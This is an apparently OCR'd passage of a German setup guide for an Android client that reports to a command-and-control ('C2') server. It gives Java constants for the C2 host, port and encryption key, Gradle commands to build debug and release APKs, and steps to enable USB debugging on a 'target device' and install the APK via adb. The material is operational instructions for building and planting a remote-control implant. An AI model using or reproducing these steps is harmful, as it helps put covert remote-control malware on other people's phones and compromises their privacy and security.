 ```java
// C2-Server-Adresse konfigurieren
private static final String C2_HOST = "IHRE-SERVER-IP";  // ← ÄNDERN
private static final int C2_PORT = 8443;

// Optional: Verschlüsselungsschlüssel anpassen
private static final String ENCRYPTION_KEY = "ihr-starker-schlüssel";
```

**Wichtig:** 
- Bei lokalen Tests: `10.0.2.2` (Android Emulator) oder LAN-IP
- Bei Remote-Tests: Öffentliche IP oder Domain

### 1.3 APK Kompilieren (5 Min)

#### Option A: Debug-Build (schnell, für Tests)
```bash
cd client
./gradlew assembleDebug
```
**Output:** `client/app/build/outputs/apk/debug/app-debug.apk`

#### Option B: Release-Build (optimiert, für Deployment)
```bash
./gradlew assembleRelease
```
**Output:** `client/app/build/outputs/apk/release/app-release.apk`

**Build-Verifizierung:**
- ✅ APK-Größe: ~11 MB
- ✅ targetSdkVersion: 35 (Android 15)
- ✅ Keine Build-Fehler

---

## 📱 Phase 2: Deployment

### 2.1 Zielgerät vorbereiten

#### 2.1.1 Entwickleroptionen aktivieren
```
Einstellungen → Über das Telefon → 7x auf "Build-Nummer" tippen
→ Entwickleroptionen → USB-Debugging aktivieren
```

#### 2.1.2 APK installieren

**Methode 1: ADB (empfohlen)**
```bash
adb install app-release.apk
```

**Methode 2: Manuell**
1. APK auf Gerät kopieren
2. Datei-Manager öffnen
3. APK antippen → Installieren
